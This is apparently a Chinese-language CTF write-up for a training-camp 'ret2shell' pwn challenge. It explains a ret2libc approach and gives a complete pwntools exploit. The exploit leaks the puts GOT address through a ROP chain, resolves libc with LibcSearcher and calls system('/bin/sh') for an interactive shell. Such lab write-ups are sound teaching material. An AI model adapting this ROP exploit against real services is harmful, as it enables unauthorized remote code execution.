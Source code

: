 ```yaml
---
title: 赛博协会训练营 - ret2shell 
date: 2023/9/19 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过分析`ret2shell`程序，利用ret2libc方法成功实现远程代码执行。
---
```


from cbctf starter 2023

## 文件分析

下载`ret2shell`, NX off, PIE off, RELRO off  
ghidra分析为64位程序

## 解题思路

> .bss不可执行，且栈溢出的空间不足以放下shellcode，转而考虑**ret2libc**

打完moectf后记：shellcode放的下，但是不太好在栈上执行shellcode  
ret2libc过程参考moectf2023和cbctf的

## EXPLOIT

```python
from pwn import *
import LibcSearcher

sh = remote(???, 10032)
elf = ELF('ret2shell')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x400703
mainAddr = elf.symbols['main']

# payload 1
sh.sendline(b'x')
sh.sendlineafter(b':', b'0'*0x18 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x400696

# payload 2
sh.sendline(b'x')
sh.sendlineafter(b':', b'0'*0x18 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
